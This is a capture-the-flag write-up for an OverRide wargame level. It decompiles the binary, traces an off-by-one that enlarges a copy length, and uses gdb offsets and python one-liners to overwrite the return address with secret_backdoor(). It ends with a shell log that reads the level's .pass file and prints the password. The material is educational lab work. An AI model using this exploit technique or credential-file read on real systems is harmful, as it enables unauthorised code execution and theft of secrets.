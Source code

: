 ## Step 1: Static & Dynamic Analysis

```c
0000088c    int64_t secret_backdoor()
0000088c    {
0000088c        void var_88;
000008ad        fgets(&var_88, 0x80, *(uint64_t*)stdin);
000008bf        return system(&var_88);
0000088c    }

000008c0    int64_t handle_msg()
000008c0    {
000008c0        int64_t s;
000008d8        __builtin_memset(&s, 0, 40);
000008ff        int32_t var_14 = 140;
00000910        void buffer;
00000910        set_username(&buffer);
0000091f        set_msg(&buffer);
00000931        return puts(">: Msg sent!");
000008c0    }

00000932    char* set_msg(char* buffer)
00000932    {
00000932        void message_input;
0000095e        __builtin_memset(&message_input, 0, 1024);
00000968        puts(">: Msg @Unix-Dude");
0000097c        printf(">>: ");
0000099d        fgets(&message_input, 1024, *(uint64_t*)stdin);
000009cc        return strncpy(buffer, &message_input, (int64_t)*(uint32_t*)(buffer + 180));
00000932    }

000009cd    int64_t set_username(int64_t buffer)
000009cd    {
000009cd        void username_input;
000009f9        __builtin_memset(&username_input, 0, 128);
00000a03        puts(">: Enter your username");
00000a17        printf(">>: ");
00000a38        fgets(&username_input, 128, *(uint64_t*)stdin);
00000a38        
00000a6e        for (int32_t i = 0; i <= 40; i += 1)
00000a6e        {
00000a6e            if (!*(uint8_t*)(&username_input + (int64_t)i))
00000a7f                break;
00000a7f            
00000a5f            *(uint8_t*)(buffer + (int64_t)i + 140) = *(uint8_t*)(&username_input + (int64_t)i);
00000a6e        }
00000a6e        
00000aa7        return printf(">: Welcome, %s", buffer + 140);
000009cd    }

00000aa8    int32_t main(int32_t argc, char** argv, char** envp)
00000aa8    {
00000aa8        puts("--------------------------------…");
00000ab8        handle_msg();
00000ac3        return 0;
00000aa8    }
```
### Explanation

This binary takes two inputs using `fgets()`, a username and a message. The `handle_msg()` function manages these inputs with a `180 bytes` buffer on the stack. It calls `set_username()` and `set_msg()` in sequence, both modifying this buffer.

In `set_username()`, a `128 bytes` buffer is created, and the first `41 bytes` are copied into the main buffer at offset `140`.

```c
for (int32_t i = 0; i <= 40; i += 1)
```

In `set_msg()`, a `1024 bytes` buffer is created for the message. The function then copies a number of bytes determined by the value stored at `buffer + 180`, which is initially set to `140`.

The vulnerability is in `set_username()`. Since `41` bytes are copied, it allows overwriting the value at `buffer + 180`, originally `140`. By modifying this value, the size limit for copying in `set_msg()` can be increased, leading to a `buffer overflow`.

```c
strncpy(buffer, &message_input, (int64_t)*(uint32_t*)(buffer + 180))
```

To exploit this, we need to determine the buffer’s base address and the saved return address.

```
0x7fffffffea10: 0xffffeae0      0x00007fff      0x55554924      0x00005555
0x7fffffffea20: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea30: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea40: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea50: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea60: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea70: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea80: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffea90: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffeaa0: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffeab0: 0x41414141      0x41414141      0x41414141      0x41414141 
```

Setting a breakpoint after filling the buffer and examining memory reveals that the controlled buffer starts at `0x7fffffffea20`.

```
(gdb) i f
Stack level 0, frame at 0x7fffffffeaf0:
 rip = 0x555555554930 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffeb00
 Arglist at 0x7fffffffeae0, args: 
 Locals at 0x7fffffffeae0, Previous frame's sp is 0x7fffffffeaf0
 Saved registers:
  rbp at 0x7fffffffeae0, rip at 0x7fffffffeae8
(gdb) x/2wx 0x7fffffffeae8
0x7fffffffeae8: 0x55554abd      0x00005555
```

We can see that the return address is stored at `0x7fffffffeae8`.

```python
>>> 0x7fffffffeae8 - 0x7fffffffea20
200
```

The difference between these addresses shows that the return address is `200 bytes` from the buffer’s base address.

```bash
python -c 'print(("A" * 40) + "\xd0")' > /tmp/exploit
```

This input fills the first `40 bytes` and overwrites the stored message length with `208`.

```python
python -c 'print(("A" * 200) + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1])' >> /tmp/exploit
```

For the second input, we overflow into the saved return address and redirect execution to `secret_backdoor()`.

## Step 2: Exploiting the Binary

```bash
level09@OverRide:~$ cat /tmp/exploit - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>: Msg @Unix-Dude
>>: >: Msg sent!
% cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
